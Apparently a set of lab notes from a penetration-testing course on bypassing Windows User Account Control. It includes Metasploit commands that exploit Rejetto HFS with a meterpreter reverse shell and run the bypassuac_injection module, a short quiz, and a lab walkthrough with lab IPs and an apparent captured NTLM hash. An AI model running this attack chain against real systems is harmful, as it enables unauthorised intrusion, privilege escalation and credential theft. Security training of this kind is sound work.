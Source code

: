- User Access Control
- Prevents unauthorized changes to an OS
- Ensures Admin allows for the change
- We can remove the UAC flag for a shell, even though we aren't Administrator


Setup msfconsole
```
service postgresql start && msfconsole 
workspace -a uac
setg RHOST <target_ip>
setg LHOST <local_ip>
```

Scan and Enumerate target
```
db_nmap -sV -O <target_ip>
```

Setup exploit module 
```
search rejetto
use exploit/windows/http/rejetto_hfs_exec
set payload windows/x64/meterpreter/reverse_tcp
options
```

To get system information in meterpreter, upgrade to Administrator or turn off UAC

Get users 
```
shell
net users
```

Setup bypass uac module
```
search bypassuac_injection
use exploit/windows/local/bypassuac_injection
set payload windows/x64/meterpreter/reverse_tcp
options
set SESSION <session_id>
set LPORT <port_of_meterpreter_session>
set TARGET <arch_of_target_system>
exploit
```


## Quiz

What does UAC stand for?

	User Account Control

Which one of the following Windows commands can be used to enumerate members of the "Administrators" group?

	net localgroup administrators
## Lab

A Kali GUI machine and a target machine running a vulnerable server are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target). 

Your task is to fingerprint the application using the tools available on the Kali machine and exploit the application using the appropriate Metasploit module.

Then, bypass [[UAC](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works)](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works)using the [Memory Injection](https://www.rapid7.com/db/modules/exploit/windows/local/bypassuac_injection/) Metasploit local exploit module. 

Objective: Gain the highest privilege on the compromised machine and get administrator user NTLM hash.

Instructions:

- Your Kali machine has an interface with IP address 10.10.X.Y. Run “ip addr” to know the values of X and Y.
- The IP address of the target machine is mentioned in the file “/root/Desktop/target”
- Do not attack the gateway located at IP address 192.V.W.1 and 10.10.X.1


```
Local IP: 10.10.80.2
Remote IP: 10.4.30.96
```

```
db_nmap -sV -O 10.4.30.96

services
```

```
f168d9f8e6c5b893b8c4dfa202228235
```